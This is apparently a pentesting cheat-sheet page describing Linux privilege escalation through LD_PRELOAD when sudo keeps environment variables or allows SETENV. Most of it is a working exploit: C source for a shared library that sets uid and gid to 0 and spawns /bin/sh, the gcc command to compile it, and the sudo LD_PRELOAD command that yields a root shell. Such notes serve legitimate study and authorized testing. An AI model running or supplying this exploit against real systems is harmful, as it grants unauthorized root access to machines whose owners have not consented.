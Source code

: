 # LD\_Preload / SETENV

There are a couple of different ways I have found this to work:

1\. In the below image, if you see the marked area when running sudo -l then you should be good to go.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

2\. If you run sudo -l and see SETENV under sudo permissions then I would also try this. Note: I had a file path after SETENV when this worked. I have not tried it with a bin, so I can't verify if it works the same.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

1. On attacker machine create a file called shell.c with the following code.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

2\. Build the shell.c code into shell.co

<pre class="language-bash"><code class="lang-bash"><strong>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

3\. Transfer the shell.so file to the target machine.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

4\. Run the code below to get a root shell. Replace the /usr/bin/ping with the path specified in the output from sudo -l.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
